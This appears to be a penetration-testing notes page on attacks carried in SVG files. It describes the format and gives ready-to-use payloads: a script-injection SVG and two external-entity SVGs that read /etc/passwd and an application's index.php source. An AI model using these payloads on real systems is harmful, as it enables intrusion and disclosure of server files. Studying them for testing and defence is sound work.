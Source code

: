 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# SVG

The SVG file type, or Scalable Vector Graphics, is an open standard defined by the World Wide Web Consortium (W3C) for representing two-dimensional graphics using XML. Unlike raster formats such as JPEG or PNG, which store images as pixel grids, SVG defines shapes, paths, text, and colors mathematically, allowing graphics to scale to any resolution without loss of quality. This characteristic makes SVG ideal for icons, diagrams, logos, and illustrations that must remain sharp across different screen sizes and display densities.

Because **SVG is text-based and structured in XML**, its contents can be created, edited, or inspected directly with a text editor. The format supports styling via CSS, scripting via JavaScript, and interactive elements such as hyperlinks or animations, effectively bridging the gap between static images and dynamic web content. While these features provide flexibility, they also introduce potential attack vectors. Maliciously crafted SVGs can include embedded scripts or external references that may be abused in environments where proper sanitization is absent.

## XSS

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
{% endcode %}

## XXE

We can also perform [XXEI](../injections/xxei/) attacks using SVG images which can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}
